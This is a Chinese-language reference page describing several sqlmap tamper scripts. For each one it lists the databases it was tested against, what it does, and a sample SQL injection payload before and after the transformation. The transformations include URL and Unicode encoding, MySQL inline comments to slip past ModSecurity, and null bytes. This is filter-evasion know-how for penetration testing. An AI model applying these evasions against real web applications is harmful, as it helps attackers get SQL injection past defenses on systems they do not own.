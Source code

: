 ### **charencode.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0  
作用：对给定的 payload 全部字符使用 url 编码（不处理已经编码的字符）  
使用脚本前：`tamper('SELECT FIELD FROM%20TABLE')`  
使用脚本后：`%53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45`

### **charunicodeencode.py**

适用数据库：ASP、ASP.NET  
测试通过数据库：Microsoft SQL Server 2000/2005、MySQL 5.1.56、PostgreSQL 9.0.3  
作用：适用字符串的 unicode 编码  
使用脚本前：`tamper('SELECT FIELD%20FROM TABLE')`  
使用脚本后：`%u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045`

### **modsecurityversioned.py**

适用数据库：MySQL  
测试通过数据库：MySQL 5.0  
作用：过滤空格，使用 mysql 内联注释的方式进行注入  
使用脚本前：`tamper('1 AND 2>1--')`  
使用脚本后：`1 /*!30874AND 2>1*/--`

### **modsecurityzeroversioned.py**

适用数据库：MySQL  
测试通过数据库：MySQL 5.0  
作用：使用内联注释方式`（/*!00000*/）`进行注入  
使用脚本前：`tamper('1 AND 2>1--')`  
使用脚本后：`1 /*!00000AND 2>1*/--`

### **apostrophenullencode.py**

适用数据库：ALL  
作用：用非法双字节 Unicode 字符替换单引号  
使用脚本前：`tamper("1 AND '1'='1")`  
使用脚本后：`1 AND %00%271%00%27=%00%271`

### **appendnullbyte.py**

适用数据库：ALL  
作用：在有效载荷的结束位置加载 null 字节字符编码  
使用脚本前：`tamper('1 AND 1=1')`  
使用脚本后：`1 AND 1=1%00`

### **chardoubleencode.py**

适用数据库：ALL  
作用：对给定的 payload 全部字符使用双重 url 编码（不处理已经编码的字符）  
使用脚本前：`tamper('SELECT FIELD FROM%20TABLE')`  
使用脚本后：`%2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545`
